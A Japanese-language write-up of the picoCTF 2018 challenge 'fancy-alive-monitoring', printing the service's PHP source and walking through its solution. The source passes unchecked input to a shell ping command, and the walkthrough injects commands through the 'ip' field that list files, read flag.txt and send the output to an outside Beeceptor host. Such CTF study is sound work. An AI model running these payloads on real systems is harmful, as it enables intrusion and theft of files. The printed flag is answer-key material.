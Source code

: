 # fancy-alive-monitoring

## Solve
```
One of my school mate developed an alive monitoring tool. 
Can you get a flag from http://2018shell.picoctf.com:31070 (link)?
```

## Hint
```
This application uses the validation check both on the client side and on the server side, 
but the server check seems to be inappropriate.
You should be able to listen through the shell on the server.
```

<br>

## Solution
picoCTFより、今は解けない状態になっているとのこと。

<br>

問題のページに移動するとソースコードがありました。

```php
<html>
<head>
   <title>Monitoring Tool</title>
   <script>
   function check(){
       ip = document.getElementById("ip").value;
       chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
       if (!chk) {
           alert("Wrong IP format.");
           return false;
       } else {
           document.getElementById("monitor").submit();
       }
   }
   </script>
</head>
<body>
    <h1>Monitoring Tool ver 0.1</h1>
    <form id="monitor" action="index.php" method="post" onsubmit="return false;">
    <p> Input IP address of the target host
    <input id="ip" name="ip" type="text">
    </p>
    <input type="button" value="Go!" onclick="check()">
    </form>
    <hr>

<?php
$ip = $_POST["ip"];
if ($ip) {
    // super fancy regex check!
    if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
        exec('ping -c 1 '.$ip, $cmd_result);
        foreach($cmd_result as $str){
            if (strpos($str, '100% packet loss') !== false){
                printf("<h3>Target is NOT alive.</h3>");
                break;
            } else if (strpos($str, ', 0% packet loss') !== false){
                printf("<h3>Target is alive.</h3>");
                break;
            }
        }
    } else {
        echo "Wrong IP Format.";
    }
}
?>
<hr>
<a href="index.txt">index.php source code</a>
</body>
</html>
```

内容的に入力したIPアドレスにpingを送り、生きているかどうかを表示するサービスのようです。

なので今度は適当にaliveになりそうなIPアドレスを送ってみます。

```
$ curl -X POST http://2018shell.picoctf.com:56517 --data "ip=127.0.0.1"
<html>

<h3>Target is alive.</h3><hr>

</html>
```

すると`alive`が返ってきました。

<br>

次にパイプを使って後ろにコマンドを追加させます。

そしてそのコマンド結果を他のホストに送らせます。

今回は`Beeceptor`を使います。

まずはlsコマンドでファイルをチェックします。

```
$ curl -X POST http://2018shell.picoctf.com:56517 --data "ip=127.0.0.1; ls | xargs -n1 curl -X POST 'https://test.free.beeceptor.com/my/api/path' --data
flag.txt
index.php
index.txt
xinet_starup.sh
```

すると`flag.txt`というのがあることがわかりました。

あとはcatコマンドで同じように実行して中身を表示させます。

```
$ curl -X POST http://2018shell.picoctf.com:56517 --data "ip=127.0.0.1; cat flag.txt | xargs -n1 curl -X POST 'https://test.free.beeceptor.com/my/api/path' --data"
picoCTF{n3v3r_trust_a_b0x_36d4a875}
flag:
your
is
Here
```

するとcatコマンドが実行されてflagが表示されました。

<br><br>

## FLAG: picoCTF{n3v3r_trust_a_b0x_36d4a875}
